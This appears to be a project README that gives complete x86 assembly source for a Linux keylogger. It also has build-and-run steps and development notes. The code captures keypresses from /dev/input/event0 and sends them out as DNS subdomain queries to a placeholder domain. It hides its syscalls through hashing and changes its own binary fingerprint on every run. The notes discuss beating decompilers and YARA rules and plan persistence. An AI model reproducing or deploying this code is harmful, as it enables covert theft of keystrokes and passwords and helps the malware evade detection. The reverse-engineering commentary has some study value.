



Creation and analysis of a keylogger developed in x86 assembly
Creation and analysis of a keylogger developed in x86 assembly
With syscalls obfuscation , DNS exfiltration and dynamic generation of fingerprint.
For analytical and educational purposes.
Code
%define INPUT_EVENT_SIZE 24 ; in octets
section .bss
key_temp resb 3
buffer resb INPUT_EVENT_SIZE
key_temp_concat resb 10 ; we will save the touch values 5 at a time (each one is 2 bytes)
section .data
breakpoint db "breakpoint"
bin_filename db "keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint",0
temp_filename db "tmp_keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint", 0
current_process_file db "/proc/self/exe", 0
junk db "junk"
temp_digit dq 0
h dq 5381
key_log db "key_log", 0
event0_file_path db "/dev/input/event0"
fd dq 0
ip_socket:
dw 2 ; AF_INET (ipv4)
dw 0x3500 ; port 53
dd 0x08080808 ; 8.8.8.8
dq 0 ; padding
dns_query:
db 0x12,0x34 ; ID (random 16 bit number)
db 0x01,0x00 ; Flags (standard query RD=1)
db 0x00,0x01 ; QDCOUNT (1 = question)
db 0x00,0x00 ; ANCOUNT
db 0x00,0x00 ; NSCOUNT
db 0x00,0x00 ; ARCOUNT
db 10 ; padding
subdomain_space:
times 10 db 0 ; subdomaine (key_temp_concat)
db 11,"testdomaine"
db 3,"com"
db 0
db 0x00,0x01 ; QTYPE A
db 0x00,0x01 ; QCLASS IN
query_len equ $-dns_query
section .text
global _start
_start:
call change_fingerprint
mov rdi, 177575 ; 2
call find_value ; r10 = value
mov rax, r10 ; open event0 file
mov rdi, event0_file_path
mov rsi, 0
mov rdx, 0
syscall
xor r10, r10
mov [fd], rax ; save file descriptor of event0
reading_new_key:
mov rax, 0 ; read INPUT_EVENT_SIZE (24 octets) in event0
mov rdi, [fd]
mov rsi, buffer
mov rdx, INPUT_EVENT_SIZE
syscall
; filter only “key pressed” events
mov ax, [buffer + 16] ; type = ev_key
cmp ax, 1
jne reading_new_key
mov eax, [buffer + 20] ; value = press
cmp eax, 1
jne reading_new_key
; get the keycode and convert it from bin to ASCII
movzx rax, word [buffer + 18] ; key code
mov rbx, 10
xor rdx, rdx
div rbx ; rax = quotient, rdx = reste
add al, '0' ; quotient -> ASCII
add dl, '0' ; reste -> ASCII
mov [key_temp], al
mov [key_temp+1], dl
mov al, [key_temp]
mov [key_temp_concat+r10], al
inc r10
mov al, [key_temp+1]
mov [key_temp_concat+r10], al
inc r10
jmp test_concat_size
test_concat_size:
cmp r10, 10
jne reading_new_key ; nb of touches pressed != 5
mov r10, 0
jmp send_dns_request
jmp reading_new_key
send_dns_request:
mov rax, 41 ; sys_socket
mov rdi, 2 ; AF_INET
mov rsi, 2 ; SOCK_DGRAM
mov rdx, 17 ; IPPROTO_UDP
syscall
mov r10, rax
mov rsi, key_temp_concat ; src : key_temp_concat
mov rdi, subdomain_space ; dst : subdomain_space
mov rcx, 10 ; nb bytes to copy
rep movsb ; for bytes in rcx : rdi += rsi[bytes]
mov rax, 44 ; sys_sendto
mov rdi, r10 ; file descriptor du socket
mov rsi, dns_query ; buffer containing the constructed query
mov rdx, query_len ; size of the request
xor r10, r10 ; flags = 0
mov r8, ip_socket ; structure sockaddr_in
mov r9, 16 ; structure size of sockaddr_in
syscall
jmp reading_new_key
exit:
mov rax, 60
xor rdi, rdi
syscall
find_value:
mov r9, 100
mov r10, 0
loop:
cmp r9, 0
je end_function
dec r9
mov qword [temp_digit], r9
mov qword [h], 5381
hash_loop:
cmp byte [temp_digit], 0
jbe test_hash
mov rax, [temp_digit]
xor rdx, rdx
mov rbx, 10
div rbx
mov rcx, rdx
mov [temp_digit], rax
; h = h * 33 + digit
mov rax, [h]
mov rbx, 33
mul rbx
add rax, rcx
mov [h], rax
jmp hash_loop
test_hash:
mov rax, [h]
cmp rax, rdi
jne loop
mov r10, r9
jmp end_function
end_function:
ret
change_fingerprint:
mov rax, 2 ; sys_open
mov rdi, current_process_file
mov rsi, 0 ; read only
mov rdx, 0
syscall
mov r12, rax ; r12 = fd current_process_file
mov rax, 2 ; sys_open
mov rdi, temp_filename
mov rsi, 577 ; write only | create if not exist | overwrite (trunc)
mov rdx, 0777q
syscall
mov r13, rax ; r13 = fd temp_filename
mov rax, 40 ; sys_sendfile
mov rdi, r13 ; temp_filename (dst)
mov rsi, r12 ; current_process_file (src)
mov rdx, 0 ; from octet 0
mov r10, 0x7FFFFFFF ; to EOF (end of the file)
syscall
mov rax, 1 ; sys_write
mov rdi, r13
mov rsi, junk
mov rdx, 4
syscall
mov rax, 87 ; unlink
mov rdi, bin_filename
syscall
mov rax, 82 ; rename
mov rdi, temp_filename
mov rsi, bin_filename
syscall
mov rax, 3
mov rdi, r12
syscall
mov rax, 3
mov rdi, r13
syscall
ret
How to run ?
In the code change the domaine : "testdomaine" to a one you own. Or just leave the "testdomaine" if you just want to see the request in wireshark.
Assemble with nasm
transform assembly into opcodesLink with ld
combines the opcodes files to create the executableRun as root and release the terminal
One-line launch
Notes on the project
First analysis without obfuscation method (14/03/2026)
By running the program, you can see the DNS queries it performs.

The fact that binary ninja attempt to recreate the high-level code in which the program was never created is quite fun. However all the syscall, the data (domain and files) is perfectly understandable and clearly displayed. Therefore, it wouldn't be very difficult to recover all the IOCs using a reverse analysis.

Things to add before the next analysis : - syscall obfuscation - dynamic signature generation allowing its fingerprint to be modified at each execution - persistence mechanism
First attempt of syscall obfuscation
This first attempt consists of retrieving the syscall into a "num" file.
cf : experimentation/syscall_obfuscation_first_attempt.asm

The syscall is obfuscated ; sys_write is not recover by the decompiler, it's the buffer return by sys_read.
But it is still easy to retrieve the file and deduce the syscalls from it.
Obfuscation trought syscall hashing (26/03/2026)
I initially implemented a non-cryptographic pseudo-hashing method of the djb2 type (cf : https://github.com/karambole-dev/learn-assembly-x86/blob/main/hashing/pseudo_djb2.asm)
We will hash all the numbers from 100 to 0 until one of them has the same hash as the desired one (here 60), and if it is the case we can exit the programm correctly by using it as a syscall (sys_exit = 60).
cf : experimentation/syscall_obfuscation_hashing.asm
I then placed all this logic in a function that the keylogger calls before a syscall:
mov rdi, 177575 ; hash of number : 2
call find_value ; r10 = returned value
mov rax, r10 ; open event0 file
mov rdi, event0_file_path
mov rsi, 0
mov rdx, 0
syscall
I only obfuscated the first syscall in the "keylogger_with_dns_exfiltration_and_syscall_obfuscation.asm" version ; the code is already quite complex and I would like to be able to continue rereading it.
On the reverse side, we see that the decompiler can no longer automatically retrieve the syscall. This is already enough to slow down the analysis.

Obviously, the fact that the file name is visible makes obfuscation less effective.
Things to add before the next analysis : - fingerprint generation - obfuscate files name and domain to bypass basic yara rules
Dynamic fingerprint (27/03/2026)
$ md5sum keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint
a7974156c03fd4e83898b9fc5dd3061e
$ sudo ./keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint
^C
$ md5sum keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint
3761e4aa2318f7ffd61725692d2dc315
Creating a self-modifying binary was much harder than i thought because the kernel blocks writing to running binaries (errors ETXTBSY).
So you have to retrieve it from memory (/proc/self/exe is the current bin in the context so we can read it), copy it to a temporary file, unlink the file from its memory instance, delete the file, and rename the copy with the name of the original binary. (cf : experimentation/dynamic_fingerprint.asm)
Warning
Only use this program on a machine you own. This code was written for educational purposes.